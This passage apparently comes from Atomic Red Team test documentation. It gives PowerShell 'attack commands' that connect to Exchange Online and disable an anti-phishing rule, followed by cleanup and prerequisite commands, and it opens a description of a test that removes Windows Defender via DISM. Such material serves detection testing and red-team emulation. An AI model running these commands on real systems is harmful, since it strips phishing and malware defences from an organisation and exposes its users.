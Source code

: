
#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
$test = Get-AntiPhishRule
Disable-AntiPhishRule -Identity $test.Name -Confirm:$false
Get-AntiPhishRule
```

#### Cleanup Commands:
```powershell
if("#{password}" -ne "") {
$secure_pwd = ("#{password}" + "") | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
$test = Get-AntiPhishRule
Enable-AntiPhishRule -Identity $test.Name -Confirm:$false
Get-AntiPhishRule
}
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement
Import-Module ExchangeOnlineManagement
```




<br/>
<br/>

## Atomic Test #27 - Disable Windows Defender with DISM
The following Atomic will attempt to disable Windows-Defender using the built in DISM.exe, Deployment Image Servicing and Management tool. 
DISM is used to enumerate, install, uninstall, configure, and update features and packages in Windows images.
A successful execution will not standard-out any details. Remove the quiet switch if verbosity is needed.
This method will remove Defender and it's package.
